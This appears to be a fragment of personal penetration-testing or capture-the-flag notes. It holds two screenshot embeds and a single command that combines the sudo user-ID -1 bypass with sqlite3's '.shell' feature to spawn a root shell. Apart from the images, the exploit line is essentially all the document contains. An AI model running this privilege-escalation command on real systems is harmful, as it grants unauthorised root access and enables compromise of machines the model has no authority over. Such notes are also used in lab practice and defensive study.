 
![[Pasted image 20250802140330.png]]

```
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
```

![[Pasted image 20250802140633.png]]
